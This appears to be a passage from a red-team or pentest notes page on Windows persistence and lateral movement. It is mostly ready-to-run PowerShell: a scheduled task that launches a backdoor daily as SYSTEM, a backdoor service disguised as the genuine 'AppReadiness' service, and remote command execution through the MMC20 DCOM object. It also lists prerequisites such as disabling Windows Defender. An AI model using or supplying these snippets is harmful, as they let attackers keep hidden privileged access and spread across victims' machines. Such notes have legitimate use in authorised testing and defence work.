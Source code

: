 This process can be automated by using [this](https://gist.github.com/netbiosX/ee35fcd3722e401a38136cff7b751d79) PowerShell module from [netbiosX](https://github.com/netbiosX). &#x20;

### Scheduled Tasks

Scheduled Task to run your backdoor as NT AUTHORITY\SYSTEM, everyday at 9am.

add cmd.exe

```powershell
$action = New-ScheduledTaskAction -Execute "cmd.exe" -Argument "/c $backdoor_path"
$trigger = New-ScheduledTaskTrigger -Daily -At 9am
$principal = New-ScheduledTaskPrincipal "NT AUTHORITY\SYSTEM" -RunLevel Highest
$settings = New-ScheduledTaskSettingsSet
$task = New-ScheduledTask -Action $action -Trigger $trigger -Principal $principal -Settings $Settings
Register-ScheduledTask $taskname -InputObject $task
```

### Windows Services

{% tabs %}
{% tab title="PowerShell" %}
Create a service that can start automatically or on-demand as needed.

```powershell
New-Service -Name "AppReadiness" -BinaryPathName "$backdoor_path" -Description "Gets apps ready for use the first time a user signs in to this PC and when adding new apps."
```
{% endtab %}

{% tab title="cmd.exe" %}
TODO: add more
{% endtab %}
{% endtabs %}

### Execute (remote) commands with DCOM

[https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/](https://enigma0x3.net/2017/01/23/lateral-movement-via-dcom-round-2/)

Win32\_DCOMApplication class. This COM object allows you to script components of MMC snap-in operations.

```powershell
$com = [type]::GetTypeFromCLSID("C08AFD90-F2A1-11D1-8455-00A0C91F3880","$env:COMPUTERNAME")
$obj = [System.Activator]::CreateInstance($com)
$obj.Document.application.ExecuteShellCommand("C:\Windows\System32\Calc.exe",$null,$null,"7")
```

For this to work, you must also be local administrator of the remote system, Windows Defender must be bypassed or disabled, and (to do this remotely) the Windows Advanced Security Firewall must have the following rules enabled:

* COM+ Network Access (port 135)
* A rule to let dynamic ports for C:\windows\system32\mmc.exe in. Regular RPC-EPMAP rules from other services won’t work as they only allow traffic to svchost.exe.
